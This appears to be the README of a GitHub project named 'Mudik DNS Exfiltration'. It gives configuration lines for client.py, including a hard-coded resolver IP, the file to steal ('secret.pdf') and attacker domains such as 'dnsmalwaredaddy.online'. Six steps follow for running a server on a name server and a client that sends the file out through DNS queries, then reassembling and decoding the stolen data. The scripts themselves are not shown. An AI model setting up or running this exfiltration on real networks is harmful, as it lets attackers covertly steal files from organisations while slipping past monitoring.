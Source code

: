 # DNS-Exfiltration
Mudik DNS Exfiltration</br>
![image](https://github.com/spatronn/DNS-Exfiltration/assets/27374567/98b43ade-ae4b-4e0f-83cd-d5c48c7e76eb)



<b>Change the parameter according to your environment:</b></br>
//Enter your DNS Resolver (client.py)</br>
dns_server = "3.253.51.115"</br>
//Specify the file you want to exfiltrate instead of secret.pdf (client.py)</br>
with open("secret.pdf", "rb") as pdf_file:</br>
//Define the domain or domains you will use in DNS Exfiltration. (client.py)</br>
domain_list = ["dnsmalwaredaddy.online","laleler-denemeler.top"]</br>


STEP-1</br>
Install requirements</br>
STEP-2</br>
Run server.py on your name server.Make sure that the DNS service is not running on this server.</br>
STEP-3</br>
Modified client.py according to your environment.</br>
STEP-4</br>
Run client.py</br>
STEP-5</br>
Once exfiltration is complete, run recreate_exfiltration_data.py to deduplicate and collect the data.</br>
STEP-6 Final</br>
We run decode_save_file.py to decode the file created in STEP-5 and access the original file.

